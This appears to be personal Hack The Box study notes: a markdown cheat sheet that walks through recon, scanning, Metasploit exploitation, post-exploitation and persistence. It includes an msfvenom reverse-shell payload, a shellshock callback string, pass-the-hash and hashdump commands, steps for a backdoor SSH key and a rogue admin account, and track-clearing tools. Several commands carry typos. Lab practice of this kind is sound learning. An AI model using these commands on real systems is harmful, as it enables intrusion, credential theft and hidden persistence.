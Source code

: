 # Recon
- whois
- geoip-bin
- geoiplookup $ip
- theharvester -d $domain -l 500 -b google
- OSRFramework
  - usufy.py -n $target
  - mailfy.py -n $target # also checks if theyve been leaked
  - searchfy.py -n $target
  - domainfy.py -n $target
- nikto -host $ip
  - nmap -p80,443 $subnet -oG -  | nikto -h-
- openVAS ~nessus,   Greenbone Sec Assistant (gsad) GUI
  - apt install openvas
  - openvas-setup
  - omp -? 

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. searchsploit $app
         1. smb                      # 139/tcp ntbios-ssnn
         2. ftp                        
         3. web app
         4. ntp
            1. ntp monlist ~DDOS
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
         1. crackmapexec $ip -u "$username" -H $Hash --local # pass the hash
         2. psexec.py
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
   4. `testing callbacks`
      1. shellshock
         1. () { :; }; /bin/bash -c "ping -c 3 $myip; id;"
      2. sudo tcptump -i eth9 -n icmp
   5. `keeping access `
      1. if `root`, create another admin user
      2. use tools on server to setup ssh server
      3. create keys
         1. cd .ssh
         2. echo $id_rsa.pub >> authorized_keys 
         3. known_hosts??
         4. ssh to box
         5. scp user@ip:/path . 
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt

# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. subs
      1. Sublist3r #for recon
         1. apt install sublist3r
      2. http://crt.sh 
   3. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   4. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson


# notes
smtp expn
smtp verify
snmp-check?? tool
